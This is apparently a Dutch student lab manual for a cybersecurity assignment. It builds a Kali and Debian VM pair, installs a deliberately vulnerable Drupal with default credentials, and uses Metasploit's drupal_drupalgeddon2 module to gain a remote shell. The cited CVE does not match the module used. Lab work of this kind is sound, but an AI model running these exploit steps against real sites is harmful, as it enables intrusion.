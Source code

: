 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een host-only netwerk adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powerhshell van de host machine:

  ```powershell
    ./vm-installation.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    #sudo apt-get install lsb-release gnupg
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

- Download en run het installatie script:

  ```bash
    wget https://jobbe.be/csv-npe-2223/drupal-install.sh
    chmod +x drupal-install.sh
    ./drupal-install.sh
  ```

##TODO: rest modules downloaden

- Kies in de prompt voor debian buster (10) en mysql-5.7 als versie van mysql
- Na de installatie is drupal beschikbaar op `http://localhost:index.php`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `drupal`
  - Database host: `localhost`
  - Database port: `3306`
  - Database driver: `mysql`
  - Database prefix: `drupal_`
  - Site name: `drupal`
  - Site email address: `drupal@localhost`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Activeer de module `RESTful Web Services` in de `Extend` pagina van Drupal
- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/html/index.html
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de remote host te in te stellen:

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOSTS 192.168.56.x
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    sessions -i 1
    whoami
  ```
